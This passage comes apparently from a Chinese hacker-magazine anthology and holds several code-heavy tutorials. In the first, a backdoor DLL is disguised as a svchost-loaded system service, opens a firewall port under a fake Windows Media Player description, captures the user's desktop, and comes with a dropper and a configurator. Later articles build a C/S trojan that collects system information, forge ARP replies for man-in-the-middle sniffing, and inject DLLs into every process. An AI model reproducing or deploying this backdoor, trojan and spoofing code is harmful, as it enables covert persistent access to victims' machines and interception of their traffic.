if (strcmp(ptr, stServiceCfg.szSvcName) == 0) break;
// create service
hscm = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
if (hscm == NULL) throw "OpenSCManager()";
char *bin = "%SystemRoot%\\system32\\svchost.exe -k netsvcs";
schService = CreateService(
    hscm,
    stServiceCfg.szSvcName,
    stServiceCfg.szSvcShow,
    SERVICE_ALL_ACCESS,
    SERVICE_WIN32_SHARE_PROCESS,
    SERVICE_AUTO_START,
    SERVICE_ERROR_NORMAL,
    bin, NULL, NULL, NULL, NULL, NULL);
if (schService == NULL) { ... }

// config service
strncpy(buff, "SYSTEM\\CurrentControlSet\\Services\\", sizeof(buff));
strncat(buff, stServiceCfg.szSvcName, 100);
rc = RegOpenKeyEx(HKEY_LOCAL_MACHINE, buff, 0, KEY_ALL_ACCESS, &hKey);
rc = RegCreateKey(hKey, "Parameters", &hkParam);
if (!GetModuleFileName(HMODULE(hDll), buff, sizeof(buff))) ...
rc = RegSetValueEx(hkParam, "ServiceDll", 0, REG_EXPAND_SZ, (unsigned char*)buff, strlen(buff) + 1);
RegCloseKey(hKey);
RegCloseKey(hkParam);
CloseServiceHandle(schService);
CloseServiceHandle(hscm);
ControlService(SERVICE_CONTROL_CONTINUE);
return rc;
```

以上就是 SVCHOST 替换服务自启动的主要代码。这里有一点要注意：要让别的程序能调用 DLL 里的函数，必须要将函数导出才行。

建一个 EXPORT.DEF 文件，内容如下：

```text
EXPORTS
    ServiceMain
    InstallService
```

将 `ServiceMain()` 和 `InstallService()` 函数导出，分别供服务控制程序和安装程序调用。至此，我们的后门就有替换系统服务、由 `svchost.exe` 加载的功能了，现在很难被发现了吧？

不过，这个后门虽然无进程，可是开放的端口却还是可以看到的。在命令行下输入“NETSTAT -AN”命令就能看到开启的 80 端口，而且由于现在多数人使用的仍然是 Windows XP 系统，我们的后门还会被 XP 自带的防火墙拦截，所以后门还要具有穿透 XP 防火墙的功能。穿透 XP 的防火墙其实很简单，因为微软把防火墙相关设置都保存在注册表里了，只要在注册表里添加相应的例外设置就行了，实现代码如下。

```cpp
BOOL XPsp2FireWall()
{
    char Temp[1024] = "80:TCP:*:Enabled:为Windows Media Player提供加载进程及为其他的移动媒体、驱动程序和库提供基层安全协议服务";
    HKEY key;
    if (RegOpenKeyEx(HKEY_LOCAL_MACHINE,
        "SYSTEM\\CurrentControlSet\\Services\\SharedAccess\\Parameters\\FirewallPolicy\\StandardProfile\\GloballyOpenPorts\\List",
        0, KEY_ALL_ACCESS, &key) == ERROR_SUCCESS) {
        RegSetValueEx(key, "80:TCP", 0, REG_SZ, (BYTE *)Temp, lstrlen(Temp));
        RegCloseKey(key);
        return TRUE;
    }
    return FALSE;
}
```

如此一来，我们就能安静地通过 XP 的防火墙保护了。但还有一个问题，我们的后门以前是以非服务状态运行的，现在是以系统服务状态在 `svchost.exe` 进程中运行的，这样后门提供的截屏功能就用不了了。因为服务程序一般是不能和用户进行交互的，此时若截屏得到的将是黑屏。因此，我们还要让 DLL 从系统桌面 “Winsta0\\Winlogon” 互相转换到 “Winsta0\\Default”，实现对用户桌面的截取，实现代码如下。

```cpp
BOOL SelectDesktop(char *name)
{
    HDESK desktop;
    DWORD dummy;
    char new_name[256];
```

```cpp
HWINSTA hOldStation = GetProcessWindowStation();
HWINSTA hWinSta = OpenWindowStation("winsta0", FALSE,
    WINSTA_ACCESSCLIPBOARD | WINSTA_ACCESSGLOBALATOMS | WINSTA_CREATEDESKTOP |
    WINSTA_ENUMDESKTOPS | WINSTA_ENUMERATE | WINSTA_EXITWINDOWS |
    WINSTA_READATTRIBUTES | WINSTA_READSCREEN | WINSTA_WRITEATTRIBUTES);

SetProcessWindowStation(hWinSta);
CloseWindowStation(hOldStation);

// 打开指定的桌面
desktop = OpenDesktop(name, 0, FALSE,
    DESKTOP_CREATEMENU | DESKTOP_CREATEWINDOW |
    DESKTOP_ENUMERATE | DESKTOP_HOOKCONTROL |
    DESKTOP_WRITEOBJECTS | DESKTOP_READOBJECTS |
    DESKTOP_SWITCHDESKTOP | GENERIC_WRITE);

HDESK old_desktop = GetThreadDesktop(GetCurrentThreadId());
if (!GetUserObjectInformation(desktop, UOI_NAME, &new_name, 256, &dummy))
{
    return FALSE;
}

// 转换桌面
if (!SetThreadDesktop(desktop))
{
    return FALSE;
}

// 转换桌面成功，销毁旧的桌面
CloseDesktop(old_desktop);
return TRUE;
}
```

在每一次截屏前调用上面的函数，设置到用户桌面下再截屏就能得到用户的桌面了。这里说明一下：查看桌面截取的屏幕是存为 BMP 文件再发送的，由于 BMP 文件较大，所以查看桌面速度会有点慢。如何截屏为 JPG 文件，就留给大家自己完成吧。

到这里，我们后门的主要部分总算完成了，由 `svchost.exe` 加载启动，无进程，穿 XP 防火墙，功能方面能执行系统命令、列系统信息，以及屏幕查看。把编译生成的 DLL 文件复制到系统目录，在命令行下执行“rundll32 htp.dll InstallService”，后门 DLL 就被安装为由 `svchost.exe` 启动的系统服务了。

回到上面说的另一个问题，我们不仅要有一个实用的后门，还要给程序一定的定制性。现在编译得到的是一个 DLL 文件，安装起来要输入一串命令，还需要一个安装程序，执行后就自动安装后门。其实安装程序只要调用一下我们导出的 `InstallService()` 函数就行了，或者是调用 `rundll32.exe`……

执行一下“rundll32 http.dll InstallService”命令。

接下来再说一下如何编写安装程序和配置程序。新建一个 Win32 Console App 工程，并将 HTTP.DLL 作为资源文件插入工程中，在 `main()` 函数中输入以下代码：

```cpp
int main()
{
    char cmd[100] = "rundll32.exe http.dll InstallService";
    HRSRC hResInfo;
    HGLOBAL hResdata;
    DWORD dwSize, dwWritten;
    HANDLE hFile;
    char SystemPath[MAX_PATH] = {0};
    GetSystemDirectory(SystemPath, MAX_PATH);
    int len = strlen(SystemPath) - 1;
    if (SystemPath[len] != '\\') strcat(SystemPath, "\\");
    strcat(SystemPath, "http.dll");

    hResInfo = FindResource(NULL, MAKEINTRESOURCE(IDR_DLL1), "DLL");
    dwSize = SizeofResource(NULL, hResInfo);
    hResdata = LoadResource(NULL, hResInfo);
    hFile = CreateFile(SystemPath, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, 0, NULL);
    WriteFile(hFile, (LPCVOID)LockResource(hResdata), dwSize, &dwWritten, NULL);
    CloseHandle(hFile);

    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    si.cb = sizeof(STARTUPINFO);
    GetStartupInfo(&si);
    si.wShowWindow = SW_HIDE;
    si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
    if (CreateProcess(NULL, cmd, NULL, NULL, TRUE, NULL, NULL, NULL, &si, &pi))
    {
        printf("运行出错!\r\n");
    }
    return 0;
}
```

这样我们的后门就只有一个 EXE 程序了，运行 Install.exe 后，在系统目录下生成 `http.dll` 并安装为服务。在命令行下运行“tasklist /M http.dll”，能看到 DLL 被 `SVCHOST.EXE` 加载运行了。

最后就是实现后门的配置程序了。后门需要自己配置的一般来说也就是端口和密码了，当然，我们也可以自己配置后门的很多地方。

图4

打开 VC6.0，建立一个基于对话框的程序，按图4所示建立好界面。

给控件添加好变量之后，将 HTTP.DLL 作为资源文件插入工程。点击“生成”按钮，进入代码编辑区，这里要完成的功能就是先生成后门安装文件 `install.exe`，再用写文件的方法，往 `install.exe` 中写入我们的配置信息。

```cpp
char pass[16], port[6];
char* Buff;
const int offset_port = 82096;
const int offset_pass = 82080;

GetDlgItem(IDC_EDIT1)->GetWindowText(port, 6);
GetDlgItem(IDC_EDIT2)->GetWindowText(pass, 16);
// 生成资源的代码和上面的一样，这里略过
WriteFile(hFile, (LPCVOID)LockResource(hResdata), dwSize, &dwWritten, NULL);
Sleep(200);
SetFilePointer(hFile, offset_pass, NULL, FILE_BEGIN);
Buff = &pass[0];
WriteFile(hFile, Buff, 16, &dwWritten, NULL);

SetFilePointer(hFile, offset_port, NULL, FILE_BEGIN);
Buff = &port[0];
WriteFile(hFile, Buff, 6, &dwWritten, NULL);
CloseHandle(hFile);
AfxMessageBox("服务端创建成功!\r\ninstall.exe");
```

将其编译后得到 `setup.exe`，写入端口和密码，点击“生成”，在程序目录下就生成了新的 `install.exe` 程序了。

至此，一个 B/S 模式的后门算是比较完美地完成了。到这里，大家也知道了一般后门程序的开发过程了。有什么问题或者不明白之处，欢迎大家到黑客防线论坛提问，我们共同探讨。

> 【本文涉及的代码（程序），请见随书光盘】

## VC编写获取服务端系统信息的C/S型木马

文／图 杨侣 刘阳

看了《黑客防线》2008年第2期中《木马典型技术实例——获取系统信息》（以下简称“木文”）一文后，受益匪浅。最近也在看一些木马程序的源代码，因此就在“木文”提供的程序源代码基础上，编写了一个 C/S 型木马，用来得到服务端的系统信息，并在客户端的界面中显示出来。

本文介绍的 C/S 型木马的通信过程与顾客到书店购买《黑客防线》杂志的过程类似。如图1所示，可以把木马的客户端（C端）看成是顾客，木马的服务端（S端）看成是书店老板。实线方框表示顾客（客户端）的动作，虚线方框表示书店老板（服务端）的动作。

第一步：顾客首先和书店老板打招呼（你好！），客户端对应的动作是创建套接字并连接套接字；书店老板也要回应招呼（你好！），服务端对应的动作则是创建、绑定、监听以及接收套接字。  
第二步：在打完招呼之后，顾客就提出了自己的要求（我要买《黑客防线》杂志），客户端将要查看信息的指令发给服务端；书店老板听到顾客的要求，就找出《黑客防线》杂志，并把杂志递给顾客，服务端查询到客户端提出的信息，把信息传递给客户端。  
第三步：顾客回家看《黑客防线》杂志，客户端显示得到的服务端信息。

图1

有了上面的流程，下面我们开始代码实现过程。首先利用 MFC 控件，创建如图2所示的客户端界面，之后进入代码编写。

图2

## 套接字的操作

- 1）木马客户端

木马客户端使用主动连接的方式，使用 `socket` 函数创建套接字，使用 `connect` 函数主动连接服务端。

```cpp
server = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
serveraddr.sin_family = AF_INET;
serveraddr.sin_port = htons(port);
serveraddr.sin_addr.S_un.S_addr = inet_addr(m_ipaddr);
LockBuffer();
if (connect(server, (SOCKADDR*)&serveraddr, sizeof(serveraddr)) < 0) {
    GetDlgItem(IDC_CONNECTSTATE)->SetWindowText("连接失败");
    AfxMessageBox("连接失败，请重试!");
    return;
} else {
    GetDlgItem(IDC_CONNECTSTATE)->SetWindowText("连接成功");
}
```

其中，m_ipaddr 是 IDC_IPADDRESS 的变量，IDC_CONNECTSTATE 为连接状态栏的 ID。当无法连接服务端时，连接状态栏显示“连接失败，请重试！”，如果连接成功则显示“连接成功”。

## 2）木马服务端

木马服务端使用 socket 函数创建套接字，使用 bind 函数绑定套接字，使用 listen 函数监听客户端的连接，使用 accept 函数接收来自客户端的连接。

```cpp
server = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
serveraddr.sin_family = AF_INET;
serveraddr.sin_port = htons(port);
serveraddr.sin_addr.S_un.S_addr = htonl(INADDR_ANY);
bind(server, (SOCKADDR*)&serveraddr, sizeof(serveraddr));
listen(server, 5);
accept(server, (sockaddr*)&clientaddr, &len);
```

## 信息的互相传递

接下来以得到服务端 CPU 信息为例，讲解本木马程序的工作流程。

- 1）木马客户端

首先由木马客户端提出要求，也就是向服务端发送查看其 CPU 信息的请求。

```cpp
void CTGClientDlg::OnGetcpuinfo()
{
    COMMAND command;
    memset((char*)&command, 0, sizeof(command));
    command.ID = CPUINFO;
    send(server, (char*)&command, sizeof(command), 0);
}
```

本函数是按键控件“得到CPU信息”的函数，COMMAND 为自定义结构，其定义代码如下：

```cpp
typedef struct
{
    int ID;
    BYTE lparam[1024];
} COMMAND;
```

其中，ID 保存客户端查看服务端的内容，相当于顾客提出的要求是“我要买的是《黑客防线》”，而不是《FM2008》，也不是《CM2008》；因此本程序中 ID 的值设置为 CPUINFO，最后使用 send 函数将请求发送给服务端。

## 2）木马服务端

木马服务端使用 CreateThread 函数创建一个线程，该线程是木马服务端的核心，其主要作用是在收到客户端不同的要求时，调用不同的函数来满足客户端的要求。

```cpp
CreateThread(NULL, NULL, SListen, (LPVOID)client, NULL, NULL);
```

其中 SListen 函数为自定义函数，首先使用 recv 函数接收来自客户端的请求：

```cpp
recv(client, (char*)&command, sizeof(command), 0);
```

其中 command 为自定义 COMMAND 结构的变量，接下来使用 switch 与 case 语句处理客户端的不同请求。

```cpp
switch (command.ID)
{
case CPUINFO:
    GetCPUInfo(client);
    break;
case MEMORYINFO:
    GetMemoryInfo(client);
    break;
case DISKINFO:
    GetDiskInfo(client);
    break;
}
```

当接收到客户的请求是 CPUINFO 时，调用 GetCPUInfo 函数得到 CPU 信息；当请求是 MEMORYINFO 时，调用 GetMemoryInfo 函数得到内存信息；当请求是 DISKINFO 时，调用 GetDiskInfo 函数得到磁盘信息。

在“木”文提供的源程序 GetCPUInfo 函数基础上，使用 send 函数将得到的 CPU 信息传给客户端，其代码为：

```cpp
send(client, (char*)&cmd, sizeof(cmd), 0);
```

其中 cmd 为自定义 COMMAND 结构的变量，其成员变量 ID 值设置为 CPUINFO，lparam 用来保存得到的 CPU 信息。

在木马的服务端和客户端都要加入一个“info.h”头文件，其作用为定义客户端的请求以及服务端的反应。

```cpp
#include "info.h"
```

“info.h”的内容为：

```cpp
#define CPUINFO 0x01
#define MEMORYINFO 0x02
#define DISKINFO 0x03
```

## 对信息的处理

当你拿到一本《黑客防线》杂志后，会迫不及待地坐在桌子旁去阅读；而当你拿到一款新的足球经理游戏后，肯定不会坐在桌子旁了，而是要马上到电脑上去体验一下。也就是说，木马客户端对于从木马服务端传过来的不同信息，要有不同的处理方式。因此，在木马的客户端也应该有一个和木马服务端中 SListen 函数类似的函数，用来处理来自服务端的不同信息。在 CTGClientDlg::OnConnect() 函数（“连接”按键控件的函数）中使用 CreateThread 函数，创建一个线程，该线程是客户端的核心，用来处理来自服务端的不同信息。

```cpp
CreateThread(NULL, NULL, CListen, this, NULL, NULL);
```

其中 CListen 函数为自定义函数，与木马服务端的 SListen 函数类似，首先使用 recv 函数接收来自木马服务端的信息：

```cpp
recv(server, (char*)&command, sizeof(command), 0);
```

其中 command 为自定义结构 COMMAND 的变量，其成员变量 ID 为服务端返回信息的种类，成员变量 lparam 包含了服务端返回信息的内容。接下来根据 ID 的值，使用 switch 与 case 语句，对接收到的信息进行分类处理。

```cpp
switch (command.ID)
{
case CPUINFO:
    dlg->ShowCPUInfo(command.lparam);
    break;
case MEMORYINFO:
    dlg->ShowMemoryInfo(command.lparam);
    break;
case DISKINFO:
    dlg->ShowDiskInfo(command.lparam);
    break;
}
```

如果书店老板给我的是《黑客防线》杂志（实际上也是我向老板要的），则我到桌子旁去阅读；如果老板给我的是《FM2008》，则我到电脑上去玩游戏。同理，如果从木马服务端返回的 command 的成员变量 ID 的值为 CPUINFO，表示返回的信息是 CPU 的信息，则调用自定义函数 dlg->ShowCPUInfo(command.lparam)，其参数为返回的 CPU 信息。ShowCPUInfo 函数的作用是将得到的服务端 CPU 信息在相应的控件中显示出来：

```cpp
CTGClientDlg::ShowCPUInfo(BYTE *DATA)
{
    GetDlgItem(IDC_CPUINFO)->SetWindowText((char*)DATA);
}
```

其中 IDC_CPUINFO 为显示 CPU 信息的编辑控件的 ID。如果 command 的成员变量是其他值，则调用相应的函数来完成对信息的处理。

至此，木马主要流程就实现了，大家可以在此基础上进一步丰富功能。最后说一下，本文的测试环境为 WINDOWS XP + VC++ 6.0。

【本文涉及的代码（程序），请见随书光盘】

## 扫描监控类


## 构造自己的ARP扫描和欺骗工具

文／图 阳广元

前段时间是各种各样的ARP攻击和带ARP攻击的木马在局域网作怪的巅峰时期。比如网页、电影、外挂、私服、插件，等等，它们都可能带有ARP攻击。同时我相信很多人也已经经历过，并且有一套自己的解决办法。而下面我要介绍的则是如何利用 WinPcap 构造自己的 ARP 扫描和欺骗工具，并且在最后给出了一些防御 ARP 扫描和欺骗的方法。

在构造自己的 ARP 扫描和欺骗工具之前，我们首先要明白 ARP 扫描和欺骗是利用了什么漏洞以及它的实现原理。

## ARP扫描和欺骗利用的漏洞

我们知道，在局域网中实际传输的是数据帧，并且数据帧里有目标主机的 MAC 地址。在以太网中，一个主机要和另一个主机进行直接通信，必须要知道目标主机的 MAC 地址，但主机是如何获得这个目标的 MAC 地址呢？它就是通过地址解析协议（ARP）获得的。所谓“地址解析”，就是主机在发送数据前将目标 IP 地址转换成目标 MAC 地址的过程。ARP 协议的基本功能就是通过目标设备的 IP 地址，查询目标设备的 MAC 地址，以保证通信的顺利进行。因此每台安装有 TCP/IP 的电脑里都有一个 ARP 缓存表，表里的 IP 地址与 MAC 地址是一一对应的，如图1所示。

同时，我们还应明白的是这个 ARP 缓存表是动态变化的，它根据接收到的数据帧动态改变各个 IP 地址对应的 MAC 地址，还有就是它并不检查 IP 地址与 MAC 地址的一一对应是否真正的正确。因此我们才可以利用它的这个“不检查正确性对应”的漏洞来实现我们自己的 ARP 扫描和欺骗。

| 主机 | IP地址 | MAC地址 |
|---|---|---|
| A | 192.168.16.1 | aa-aa-aa-aa-aa-aa |
| B | 192.168.16.2 | bb-bb-bb-bb-bb-bb |
| C | 192.168.16.3 | cc-cc-cc-cc-cc-cc |
| D | 192.168.16.4 | dd-dd-dd-dd-dd-dd |

图1

## ARP扫描和欺骗的原理

首先我们应该明白的是，我们可以根据自己的需要构造 ARP 包，并且用 WinPcap 中的相应函数将我们构造的 ARP 包发送到目的地址，从而达到我们的目的。

### 1. ARP扫描的原理

ARP 扫描的原理就是构造 ARP 请求包，并将我们构造的 ARP 请求包以广播的形式向局域网内广播。这样与我们所构造的 ARP 包中相同 IP 的主机就会给我们发送一个响应包，通过这个响应包，我们就可以获得该 IP 对应的 MAC 地址。这就是 ARP 扫描的原理。

### 2. ARP欺骗的原理

现在的监听技术有很多，但是我们常用的 sniffer 工具只能在基于 Hub 的网络中起作用，而不能在哪怕是只有交换机的网络中起作用，这时就只有想别的办法了。而本文要介绍的 ARP 欺骗技术就能实现常用 sniffer 工具不能实现的监听。基于 ARP 欺骗的实质就是构造一个 ARP 应答包，从而修改被欺骗主机的 ARP 缓存表，这样使得原本发送到正确目的地的数据包先到达我们的主机，然后再由我们的主机转发到它真正想去的目的地。下面通过一个实例来说明这个过程。

首先假设有3台主机 A 和 B，还有我们自己的主机 C，并且位于同一个交换式局域网中，接下来分析一下 ARP 欺骗的原理。

A 与 B 正在通信，如果我们想要刺探 A→B 通信的内容，那么就可以给 A 发送一个伪造的 ARP 回应包，并且告诉 A，B 的 IP 所对应的 MAC 地址为主机 C 的 MAC 地址。这样 A 也就会相应地刷新自己的 ARP 缓存，将发送给 B 的数据源源不断地发送到我们的主机 C 上，这样我们就可以对接收到的数据包进行分析，从中获得我们想要的东西了。当然，因为 ARP 缓存是动态的，有超时限制，所以我们必须每隔一段时间就给 A 发送一个 ARP 回应包。虽然这样我们就达到了欺骗监听的目的，但是 A 到 B 的通信却被停止了。为了不让 B 发现，我们还要对每次接收到的数据包进行转发，即将本该发给 B 的数据全部经过 C 转发给 B。同样的道理，我们还可以监听 B→A 的数据包，这样我们就可以监听到 A、B 之间的通信的所有内容，从而实现对 A、B 通信的双向监听了，如图2所示。


通过上面的介绍，大家应该弄明白了什么是 ARP 扫描和欺骗。接下来讲解如何用现在十分流行的抓包开发包 WinPcap（下载网址 http://www.winpcap.org/install/default.htm）构造我们自己的 ARP 扫描和欺骗工具。

## ARP扫描和欺骗的实现

### 1. ARP扫描的实现

这里我们利用 Microsoft Platform SDK 中提供的用来获得目标主机 MAC 地址的函数来实现，其描述为：

```cpp
DWORD SendARP(
    IPAddr DestIP,
    // 这里填入我们要扫描的目标IP，这是用于接收目标主机返回的数据包的IP，如果是本机接收返回的数据包，直接填0即可，否则填接收数据包的IP
    IPAddr SrcIP,
    PULONG pMacAddr,
    // 目标主机所对应的MAC，发送时应填写广播地址
    PULONG PhyAddrLen
    // MAC地址的长度，IPv4填6
);

Void GetDestMac(char* DestIP)
{
    // 广播地址
    uchar arDestMac[6] = { 0xff, 0xff, 0xff, 0xff, 0xff, 0xff };
    uLen = 6; // MAC地址的长度，IPv4填6
    // 开始扫描
    if (::SendARP(::inet_addr(szSTARTIP), 0, (ULONG*)arDestMac, &uLen) == NO_ERROR) {
        // 打印出结果
        uchar *p = arDestMac;
        printf("%s : %02X-%02X-%02X-%02X-%02X-%02X\n", szSTARTIP, p[0], p[1], p[2], p[3], p[4], p[5]);
    } else {
        printf("%s %s\n", DestIP, "现在不存在活机");
    }
}
```

### 2. ARP欺骗的实现

由于我编写的 ARP 扫描和欺骗的代码太多，所以这里我只给出核心代码的讲解。至于完整的代码，需要的朋友可以给我 E-mail：to_yangguangyuan@163.com。

```cpp
unsigned int __stdcall sproof(void *x)
{
    int i = 0;
    unsigned char sendone[42], sendtwo[42];
    ETHDR eth;
    ARPHDR arp;
    int k;
    memset(sendone, 0, 42);
    for (k = 0; k < 6; k++) {
        eth.eh_dst[k] = scanip[1].mac[k];
        eth.eh_src[k] = myip->mac[k];
        arp.arp_sha[k] = myip->mac[k];
        arp.arp_tha[k] = scanip[1].mac[k];
    }
    eth.eh_type = htons(ETH_ARP);
    arp.arp_hdr = htons(ARP_HARDWARE);
    arp.arp_pro = htons(ETH_IP);
    arp.arp_hln = 6;
    arp.arp_pln = 4;
    arp.arp_opt = htons(ARP_REPLY);
    arp.arp_spa = scanip[0].ip;
    arp.arp_tpa = scanip[1].ip;
    memset(sendone, 0, sizeof(sendone));
    memcpy(sendone, &eth, sizeof(eth));
    memcpy(sendone + sizeof(eth), &arp, sizeof(arp));

    memset(sendtwo, 0, 42);
    for (k = 0; k < 6; k++) {
        eth.eh_dst[k] = scanip[0].mac[k];
        eth.eh_src[k] = myip->mac[k];
        arp.arp_sha[k] = myip->mac[k];
        arp.arp_tha[k] = scanip[0].mac[k];
    }
    eth.eh_type = htons(ETH_ARP);
    arp.arp_hdr = htons(ARP_HARDWARE);
    arp.arp_pro = htons(ETH_IP);
    arp.arp_hln = 6;
    arp.arp_pln = 4;
    arp.arp_opt = htons(ARP_REPLY);
    arp.arp_spa = scanip[1].ip;
    arp.arp_tpa = scanip[0].ip;
    memset(sendtwo, 0, sizeof(sendtwo));
    memcpy(sendtwo, &eth, sizeof(eth));
    memcpy(sendtwo + sizeof(eth), &arp, sizeof(arp));

    while (TRUE) {
        if (pcap_sendpacket(slecadopt, sendone, sizeof(ETHDR) + sizeof(ARPHDR)) != 0) {
            printf("sendbufgoate Error: %d\n", GetLastError());
            return 0;
        }
    }
}
```

```cpp
if (pcap_sendpacket(selectedAdapter, sendtwo, sizeof(ETHDR) + sizeof(ARPHDR)) != 0)
{
    printf("sendbufToSP Error: %d\n", GetLastError());
    return 0;
}
Sleep(100);
}
}
```

## 防御ARP扫描和欺骗的方法

通过对我所搜集资料的整理，我归纳了下面一些防御ARP扫描和欺骗的方法，希望能对大家有所帮助。

- 不要把你的网络安全信任关系建立在 IP 或 MAC 基础上，理想的关系应该建立在 IP+MAC 基础上。  
- 设置静态的 MAC→IP 对应表，不要让主机刷新你设定好的转换表。  
- 除非很有必要，否则停止使用 ARP，将 ARP 作为永久条目保存在对应表中。  
- 使用 ARP 服务器。通过该服务器查找自己的 ARP 转换表来响应其他机器的 ARP 广播，确保这台 ARP 服务器不被 Hack。  
- 使用 Proxy 代理 IP 传输。  
- 使用硬件屏蔽主机，设置好你的路由，确保 IP 地址能到达合法路径。注意：使用交换集线器和网桥是无法阻止 ARP 欺骗的。  
- 定期用响应的 IP 包中获得的一个 RARP 请求来检查 ARP 响应的真实性。  
- 定期检查主机上的 ARP 缓存。  
- 使用防火墙连续监控网络，注意在使用 SNMP 的情况下，ARP 欺骗有可能导致陷阱包丢失。  

### 文件监控开发过程

文 / 图 梁念

参加工作快一年了，虽然不是做程序员，但是对程序却有了一定的认识，而且平时也研究一些程序，下面就把自己的一些心得发表出来。我所在公司的软件产品结构是 C/S+B/S，客户端和服务器端用的是 VC6.0，测试工具为 DebugView，测试用的 API 是 OutputDebugString(CString tmp)。现在大部分系统软件采用的技术都是 Hook API。当然，如果想把功能做到极致，应该采用系统驱动来做，比如注册表监控、杀流氓软件、文件监控等；但是要把它做成产品，就不能花太多时间（采用系统驱动实现动不动就蓝屏，调试很费劲）。我有一个同事在做注册表监控时，调试 Windows 2003 操作系统就搞了一个月，后来发现是 PsGetOSVersion 得到的 Windows 2003 版本不对。所以大部分情况都是在用户态下完成底层功能，这时 Hook API 是最好的选择。

## 程序构架

下面向大家介绍一下用户态文件监控的实现。此程序的结构包括 EDPloader.exe、ProcMon.dll 和 CreateFileMon.dll。其逻辑为：EDPloader.exe 启动 ProcMon.dll 和 CreateFileMon.dll，把 ProcMon.dll 和 CreateFileMon.dll 插入除了 PID=0 和 4 的所有进程，同时监控两个 API——CreateFileA 和 CreateProcessW。监控 CreateProcessW 完成的功能为：发现新的进程执行时，插入 ProcMon.dll 和 CreateFileMon.dll，保证所有新创建的进程都有 ProcMon.dll 和 CreateFileMon.dll。这样不管哪个进程空间调用 CreateFileA，都会被监视到，然后对它进行记录。

现在，程序结构大家都清楚了，程序用的技术也晓得了，剩下的就是如何实现了。在这里我用的是微软的 Hook API 库 detours.lib。虽然应用的是别人的东西，但是我们也要了解它最基本的原理。实际上，Win32 API 是由一组动态链接库实现的，使用动态链接库是为了尽可能共享内存。由于动态链接库是动态装入的，所以 Win32 API 函数的入口点也是动态确定的。当 Windows 应用程序调用 Win32 API 时，并不是直接调用某个函数地址，而是调用某处所存储的一个动态确定的函数地址来实现间接调用的，该处被命名为 Import Address Table（简称 IAT）。知道了这一点，接下来要做的就是想办法找到这个存储单元的位置，然后将其内容替换为接管函数的入口地址，不过得事先保存原函数的入口地址，以便执行了接管函数代码后，可以在适当地方以适当方式再调用原函数。最后退出时，或是不想再钩着它时，再将其恢复为原函数入口地址。这就是 Hook Win32 API 的基本步骤。

#### 代码实现

##### 1) ProcMon.dll

首先建立一个 Win32 动态链接库，使用向导实现，选择 3，如图 1 所示。建好后，删除 ProcMon.cpp 文件中的以下内容：

```cpp
#include "ProcMon.h"
// This is an example of an exported variable
PROCMON_API int nProcMon = 0;

// This is an example of an exported function.
PROCMON_API int fnProcMon(void)
{
    return 42;
}

// This is the constructor of a class that has been exported.
// see ProcMon.h for the class definition
CProcMon::CProcMon()
{
    return;
}
```

再删除 ProcMon.h 文件，这样，一个干净的 Win32 DLL 就产生了。然后在 VC 新建的 ProcMon 文件夹中拷入 detours.lib 和 detours.h，大家要记住一定要用 1.5 版本。准备工作做完后，我们来解析代码。

```cpp
bool InjectDll(char *pDllFullPath, DWORD iPid),
BOOL EnableDebugPriv(const char *Name),
BOOL WINAPI DetourCreateProcessW(LPCWSTR lpApplicationName, LPWSTR lpCommandLine,
LPSECURITY_ATTRIBUTES lpProcessAttributes,
LPSECURITY_ATTRIBUTES lpThreadAttributes, BOOL ...)

BOOL WINAPI DetourCreateProcessW(...)
BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
```

这里一共有 4 个函数，DetourCreateProcessW 函数就是我们要 Hook 的 CreateProcessW 的处理过程。InjectDll 是用来远程进程插入的，EnableDebugPriv 是在调用 InjectDll 时提权用的，用于提升自己为 TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY。下面我们主要讲讲 DetourCreateProcessW 的实现。

```cpp
// 这里最重要的是 Unicode 编程...
LPCWSTR record_lpProcessName;
record_lpProcessName = lpApplicationName;

// 字符串处理，得到新创建进程不带路径的名称
const unsigned short *b = wcsrchr(record_lpProcessName, '\\');
b = b + 1;

// 列举进程，得到新创建进程的 pid
HANDLE hkernel32; // 被注入进程的句柄
HANDLE hSnap;
PROCESSENTRY32W pe;
BOOL bNext;
pe.dwSize = sizeof(pe);
hSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
bNext = Process32FirstW(hSnap, &pe);
while (bNext) {
    if (!wcscmp(pe.szExeFile, b)) {
        hkernel32 = OpenProcess(PROCESS_CREATE_THREAD |
                                PROCESS_VM_WRITE |
                                PROCESS_VM_OPERATION,
                                1, pe.th32ProcessID);
        break;
    }
    bNext = Process32NextW(hSnap, &pe);
}
CloseHandle(hSnap);

// 得到要插入的 CreateFileMon.dll 和 ProcMon.dll 的路径
char sys_path[MAX_PATH] = {0};
char sys_path2[MAX_PATH] = {0};
GetSystemDirectory(sys_path, MAX_PATH);
strcat(sys_path, "\\CreateFileMon.dll");
GetSystemDirectory(sys_path2, MAX_PATH);
strcat(sys_path2, "\\ProcMon.dll");
InjectDll(sys_path, pe.th32ProcessID);
InjectDll(sys_path2, pe.th32ProcessID);

// 原封不动地把 Hook CreateProcessW 的参数传递
// 给真正系统中的 CreateProcessW 进行处理，并返回值
BOOL ret;
ret = Real_CreateProcessW(lpApplicationName,
                          lpCommandLine, lpProcessAttributes, lpThreadAttributes,
                          bInheritHandles, dwCreationFlags, lpEnvironment,
                          lpCurrentDirectory, lpStartupInfo, lpProcessInformation);
return ret;
```

经过这样处理后，其效果如图 2、图 3 和图 4 所示。编译通过后，就可以得到带资源的 Win32 程序了，剩下的工作就是释放资源了，其代码如下所示。

##### 2) EDPLoader.exe

EDPLoader.exe 主要用于释放 ProcMon.dll 和 CreateFileMon.dll 到 system32 目录下，然后再把它们远程插入除了 PID=0 和 4 的所有进程。本来完成第二个目标用 Win32 Console 就能搞定，但是要释放资源就只能用 MFC 做了。后来我想了一个两全其美的办法，方法如下。

首先创建一个基于对话框的 MFC 程序，把 EDPLoaderDlg.h 和 EDPLoaderDlg.cpp 删除，注释掉 EDPLoader.cpp 文件中的 `#include "EDPLoaderDlg.h"` 和下面的代码。

```cpp
/*
AfxEnableControlContainer();
// Standard initialization
// If you are not using these features and wish to reduce the size
// of your final executable, you should remove from the following
// the specific initialization routines you do not need.
#ifdef _AFXDLL
Enable3dControls();
// Call this when using MFC in a shared DLL
